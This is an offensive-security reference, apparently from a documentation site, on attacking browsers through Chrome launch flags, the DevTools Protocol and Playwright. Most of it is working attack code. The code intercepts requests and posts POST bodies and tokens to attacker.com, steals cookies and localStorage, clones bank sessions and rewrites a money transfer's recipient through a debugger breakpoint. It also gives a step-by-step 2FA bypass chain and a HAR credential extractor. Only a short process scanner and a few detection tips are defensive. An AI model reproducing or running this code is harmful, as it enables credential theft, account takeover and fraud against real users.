


# The Hostile DOM: Deep Dive Technical Reference

::: danger Offensive Security Research
This document provides **exhaustive technical analysis** of browser-based attack vectors. All code examples are for educational and authorized security research purposes only.
:::

## Part 1: Browser Architecture & Instrumentation

### 1.1 The Browser as an Untrusted Operating System

Modern browsers expose over **350+ Web APIs**, each representing a potential attack surface. The evolution from document viewers to application platforms has created an unprecedented security paradox.

#### The Trust Model Breakdown



#### The Complexity Attack Surface

**Chromium Engine Statistics** (as of 2025):
- **Lines of Code**: ~30 million (larger than Linux kernel)
- **Third-Party Scripts Per Page Load**: Average 48 external domains
- **Web APIs**: 350+ interfaces exposed to JavaScript
- **V8 Engine CVEs (2024)**: 37 vulnerabilities, 12 critical

::: danger Threat Model
A single XSS vulnerability in a web application now grants access to:
- **Sensors**: Gyroscope, Accelerometer, Magnetometer, Ambient Light
- **Hardware**: Camera, Microphone, USB, Bluetooth, NFC
- **Storage**: IndexedDB (unlimited), localStorage, Cache API, Origin-Private File System
- **Network**: WebRTC (P2P holes through firewall), WebSocket (persistent connections)
- **Compute**: Web Workers (multi-threading), WebAssembly (near-native performance), WebGPU
:::

### 1.2 Launch Flags: The Forensic Backdoor

Browser vendors expose **command-line flags** for debugging and testing. These flags disable security boundaries, creating exploitation opportunities.

#### Critical Flag Analysis

::: code-group
```bash [Complete Attack Surface]
# Launch Chrome with maximum exploitation capabilities
google-chrome \
  --remote-debugging-port=9222 \         # CDP remote control
  --no-sandbox \                         # Disable process isolation
  --disable-setuid-sandbox \             # Disable Linux sandbox
  --disable-web-security \               # CORS bypass
  --disable-features=IsolateOrigins \    # Disable site isolation
  --disable-site-isolation-trials \      # Remove origin barriers
  --user-data-dir="/tmp/evil-profile" \  # Custom profile
  --window-size=1920,1080 \              # Fingerprint consistency
  --headless=new                         # Invisible execution
```

```python [Automated Flag Enumeration]
#!/usr/bin/env python3
"""
Scan for Chrome instances with dangerous flags enabled
"""
import psutil
import re

DANGEROUS_FLAGS = [
    '--remote-debugging-port',
    '--no-sandbox',
    '--disable-web-security',
    '--headless'
]

def scan_chrome_processes():
    """Find Chrome instances with security disabled"""
    vulnerable_instances = []
    
    for proc in psutil.process_iter(['pid', 'name', 'cmdline']):
        try:
            if 'chrome' in proc.info['name'].lower():
                cmdline = ' '.join(proc.info['cmdline'])
                
                # Check for dangerous flags
                found_flags = []
                for flag in DANGEROUS_FLAGS:
                    if flag in cmdline:
                        found_flags.append(flag)
                        
                        # Extract debugging port if present
                        if 'remote-debugging-port' in flag:
                            match = re.search(r'--remote-debugging-port=(\d+)', cmdline)
                            if match:
                                port = match.group(1)
                                found_flags.append(f"Port: {port}")
                
                if found_flags:
                    vulnerable_instances.append({
                        'pid': proc.info['pid'],
                        'flags': found_flags,
                        'cmdline': cmdline
                    })
        except (psutil.NoSuchProcess, psutil.AccessDenied):
            continue
    
    return vulnerable_instances

if __name__ == '__main__':
    vulns = scan_chrome_processes()
    if vulns:
        print(f"[!] Found {len(vulns)} vulnerable Chrome instances:")
        for v in vulns:
            print(f"\n  PID: {v['pid']}")
            print(f"  Flags: {', '.join(v['flags'])}")
    else:
        print("[+] No vulnerable instances found")
```
:::

#### Flag Impact Matrix

| Flag | Security Bypass | Attack Use Case | Detection Difficulty |
|------|----------------|-----------------|---------------------|
| `--no-sandbox` | OS process isolation | File system access, memory dumps | Easy (process flags visible) |
| `--remote-debugging-port` | Authentication boundary | Session hijacking, cookie theft | Medium (network scan required) |
| `--disable-web-security` | Same-Origin Policy | CORS bypass, XS-Leaks | Hard (behavior-based only) |
| `--headless=new` | Visual detection | Automated credential stuffing | Very Hard (no UI artifacts) |

### 1.3 Chrome DevTools Protocol (CDP): The Control Plane

CDP is a **bi-directional WebSocket protocol** that exposes ~100 domains for browser automation. It operates **below** the web security model.

#### CDP Architecture



#### CDP Domains: Attack Surface Catalog

::: details Click to expand code
::: code-group
```javascript [Network Domain - Traffic Interception]
// Enable network tracking
await client.send('Network.enable');

// Intercept ALL requests
await client.send('Network.setRequestInterception', {
  patterns: [{ urlPattern: '*' }]
});

// Listen for intercepted requests
client.on('Network.requestIntercepted', async ({ interceptionId, request }) => {
  // Log credentials from POST bodies
  if (request.method === 'POST') {
    console.log('[!] POST Data:', request.postData);
    
    // Exfiltrate to attacker server
    await fetch('https://attacker.com/log', {
      method: 'POST',
      body: JSON.stringify({
        url: request.url,
        headers: request.headers,
        body: request.postData
      })
    });
  }
  
  // Continue the request (invisible MITM)
  await client.send('Network.continueInterceptedRequest', {
    interceptionId
  });
});
```

```javascript [Runtime Domain - Code Execution]
// Execute arbitrary JavaScript in page context
const result = await client.send('Runtime.evaluate', {
  expression: `
    // Steal all localStorage
    const stolen = {};
    for (let i = 0; i < localStorage.length; i++) {
      const key = localStorage.key(i);
      stolen[key] = localStorage.getItem(key);
    }
    
    // Steal all cookies (including HttpOnly via CDP)
    const cookies = await window.cookieStore.getAll();
    
    // Return everything
    JSON.stringify({ localStorage: stolen, cookies });
  `,
  awaitPromise: true,
  returnByValue: true
});

console.log('[+] Stolen data:', result.result.value);
```

```javascript [Page Domain - Session Hijacking]
// Get all cookies (bypasses HttpOnly restriction)
const { cookies } = await client.send('Network.getAllCookies');

// Clone victim's session
for (const cookie of cookies) {
  if (cookie.domain.includes('bank.com')) {
    console.log(`[+] Found bank cookie: ${cookie.name}`);
    
    // Set on attacker's browser
    await attackerBrowser.send('Network.setCookie', {
      name: cookie.name,
      value: cookie.value,
      domain: cookie.domain,
      path: cookie.path,
      httpOnly: cookie.httpOnly,
      secure: cookie.secure
    });
  }
}

// Now navigate to bank.com with victim's session
await attackerBrowser.send('Page.navigate', {
  url: 'https://bank.com/account'
});
```

```javascript [Debugger Domain - Breakpoint Injection]
// Enable debugger
await client.send('Debugger.enable');

// Set breakpoint on sensitive function
await client.send('Debugger.setBreakpointByUrl', {
  lineNumber: 42,
  url: 'https://bank.com/static/transfer.js',
  condition: 'amount > 1000' // Only break on large transfers
});

// When breakpoint hits, modify execution
client.on('Debugger.paused', async ({ callFrames }) => {
  // Access local scope variables
  const scope = callFrames[0].scopeChain[0];
  
  // Modify transfer amount
  await client.send('Debugger.evaluateOnCallFrame', {
    callFrameId: callFrames[0].callFrameId,
    expression: 'amount = 0.01; recipient = "attacker@evil.com"'
  });
  
  // Resume execution with modified values
  await client.send('Debugger.resume');
});
```
:::

#### Real-World CDP Exploitation Chain

::: danger Attack Scenario: MFA Bypass via Session Riding

**Target**: Corporate web application with 2FA  
**Precondition**: Victim has active authenticated session  
**Attack Goal**: Access internal admin panel without 2FA challenge

**Exploitation Steps**:

1. **Discovery**: Scan for Chrome instances with debugging enabled
   ```bash
   nmap -p 9222-9322 localhost
   ```

2. **Connection**: Attach to debugging port
   ```javascript
   const CDP = require('chrome-remote-interface');
   const client = await CDP({ port: 9222 });
   ```

3. **Enumeration**: List all open tabs/targets
   ```javascript
   const { targetInfos } = await client.send('Target.getTargets');
   const corpTab = targetInfos.find(t => t.url.includes('corp.internal.com'));
   ```

4. **Hijack**: Attach to the authenticated session
   ```javascript
   const session = await client.send('Target.attachToTarget', {
     targetId: corpTab.targetId,
     flatten: true
   });
   ```

5. **Bypass 2FA**: Navigate to admin panel (cookies auto-attach)
   ```javascript
   await client.send('Page.navigate', {
     url: 'https://corp.internal.com/admin'
   });
   // 2FA challenge skipped - using existing session
   ```

6. **Privilege Escalation**: Execute admin actions
   ```javascript
   await client.send('Runtime.evaluate', {
     expression: `
       fetch('/api/users/promote', {
         method: 'POST',
         body: JSON.stringify({ user: 'attacker', role: 'admin' })
       })
     `
   });
   ```

**Defense Detection**:
- Monitor for unexpected CDP connections (check Chrome's `chrome://inspect`)
- Alert on `--remote-debugging-port` in running processes
- Implement certificate pinning for internal apps (prevents CDP's certificate bypass)
:::

### 1.4 Browser Automation Framework Weaponization

Tools like **Puppeteer**, **Playwright**, and **Selenium** abstract CDP into high-level APIs. They inherit all CDP capabilities plus additional attack primitives.

#### Playwright Context-Level Privileges

::: details Click to expand code
::: code-group
```javascript [Complete Browser Takeover]
const { chromium } = require('playwright');

// Launch with security disabled
const browser = await chromium.launch({
  headless: true,
  
  // CRITICAL: Bypass all web security
  args: [
    '--disable-web-security',
    '--disable-features=IsolateOrigins,site-per-process'
  ]
});

// Create context with god-mode privileges
const context = await browser.newContext({
  // Ignore Content Security Policy
  bypassCSP: true,
  
  // Accept invalid/self-signed certificates
  ignoreHTTPSErrors: true,
  
  // Record ALL network traffic
  recordHar: { 
    path: 'evidence.har',
    content: 'embed' // Include response bodies
  },
  
  // Override permissions (no prompts)
  permissions: ['geolocation', 'notifications', 'camera', 'microphone'],
  
  // Spoof user agent
  userAgent: 'Mozilla/5.0 (Legitimate User)'
});

// Inject global spyware before any page loads
await context.addInitScript(() => {
  // Override fetch to log all requests
  const originalFetch = window.fetch;
  window.fetch = function(...args) {
    console.log('[FETCH INTERCEPTED]', args);
    // Send to attacker server
    originalFetch('https://attacker.com/log', {
      method: 'POST',
      body: JSON.stringify(args)
    });
    return originalFetch.apply(this, args);
  };
  
  // Override XMLHttpRequest
  const originalOpen = XMLHttpRequest.prototype.open;
  XMLHttpRequest.prototype.open = function(method, url) {
    console.log('[XHR INTERCEPTED]', method, url);
    return originalOpen.apply(this, arguments);
  };
});
```

```javascript [Automated Credential Harvesting]
const page = await context.newPage();

// Monitor all network responses
page.on('response', async (response) => {
  const url = response.url();
  
  // Target authentication endpoints
  if (url.includes('/login') || url.includes('/auth')) {
    try {
      const body = await response.json();
      
      // Check for tokens in response
      if (body.token || body.access_token || body.jwt) {
        console.log('[!] TOKEN CAPTURED:', body);
        
        // Exfiltrate immediately
        await fetch('https://attacker.com/tokens', {
          method: 'POST',
          body: JSON.stringify({
            url: url,
            token: body.token || body.access_token || body.jwt,
            timestamp: new Date().toISOString()
          })
        });
      }
    } catch (e) {
      // Not JSON, check headers
      const authHeader = response.headers()['authorization'];
      if (authHeader) {
        console.log('[!] AUTH HEADER CAPTURED:', authHeader);
      }
    }
  }
});

// Navigate to target
await page.goto('https://target.com/login');

// Auto-fill credentials (from stolen database)
await page.fill('#username', 'victim@company.com');
await page.fill('#password', 'p4ssw0rd');
await page.click('button[type="submit"]');

// Wait for redirect to dashboard
await page.waitForURL('**/dashboard');

// Now we have authenticated session - scrape sensitive data
const data = await page.evaluate(() => {
  return {
    userInfo: JSON.parse(localStorage.getItem('user')),
    apiKeys: document.querySelectorAll('[data-api-key]').map(el => el.textContent),
    csrfToken: document.querySelector('meta[name="csrf-token"]').content
  };
});

console.log('[+] Harvested data:', data);
```
:::

#### HAR File Analysis for Token Extraction

HAR (HTTP Archive) files record complete browser network traffic, including encrypted HTTPS payloads **decrypted by the browser**.

::: details Click to expand code
```javascript
// Parse HAR file for sensitive data
const harData = JSON.parse(fs.readFileSync('evidence.har', 'utf8'));

const tokens = [];
const credentials = [];

for (const entry of harData.log.entries) {
  const request = entry.request;
  const response = entry.response;
  
  // Extract Authorization headers
  const authHeader = request.headers.find(h => h.name.toLowerCase() === 'authorization');
  if (authHeader) {
    tokens.push({
      url: request.url,
      type: 'Bearer',
      value: authHeader.value,
      timestamp: entry.startedDateTime
    });
  }
  
  // Extract cookies
  if (request.cookies.length > 0) {
    request.cookies.forEach(cookie => {
      if (cookie.name.includes('session') || cookie.name.includes('token')) {
        tokens.push({
          url: request.url,
          type: 'Cookie',
          name: cookie.name,
          value: cookie.value
        });
      }
    });
  }
  
  // Extract POST body credentials
  if (request.postData && request.postData.text) {
    try {
      const body = JSON.parse(request.postData.text);
      if (body.username || body.email || body.password) {
        credentials.push({
          url: request.url,
          username: body.username || body.email,
          password: body.password,
          timestamp: entry.startedDateTime
        });
      }
    } catch (e) {
      // Try form-encoded
      if (request.postData.text.includes('password=')) {
        const params = new URLSearchParams(request.postData.text);
        credentials.push({
          url: request.url,
          username: params.get('username') || params.get('email'),
          password: params.get('password')
        });
      }
    }
  }
}

console.log(`[+] Extracted ${tokens.length} tokens and ${credentials.length} credentials`);
```
:::

::: warning Evidence Collection
HAR files are forensic gold mines. They contain:
- **Complete request/response bodies** (including encrypted HTTPS content)
- **All cookies** (including HttpOnly cookies visible to browser)
- **Timing information** (can reveal rate limits, processing delays)
- **Redirect chains** (useful for tracking OAuth flows)
- **WebSocket frames** (real-time chat messages, stock prices)
:::

---

